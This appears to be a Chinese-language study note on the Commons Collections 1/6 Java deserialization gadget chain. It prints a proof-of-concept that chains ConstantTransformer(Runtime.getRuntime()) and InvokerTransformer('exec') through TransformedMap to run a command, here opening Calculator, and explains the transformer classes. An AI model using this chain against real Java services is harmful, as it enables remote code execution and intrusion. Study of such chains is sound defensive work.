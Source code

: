 ## CommonsCollections1&CommonsCollections6

### TransformedMap调用链

```java
    public static void main(String[] args) {
        String cmd  = "open /System/Applications/Calculator.app";
        String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(null);

        //创建AnnotationInvocationHandler对象 对map.class的动态代理对象
        Map map = new HashMap();

        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        transformedMap.put("key","value");

//        for (Object obj : transformedMap.entrySet()) {
//            Map.Entry entry = (Map.Entry) obj;
//
//            // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
//            entry.setValue("test");
//        }
```

#### ChainedTransformer

实现Transform接口的一个类，构造时传入Transform列表，他的transform()方法将构造时传入的数组穿起来

前一个的返回结果作为下一个的参数

```java
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
        return object;
    }
```

#### ConstantTransformer

也是实现了tansformer接口的类，构造时传入一个对象并保存在iConstant属性，在调用transform()时将这个对象返回

```java
    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
```
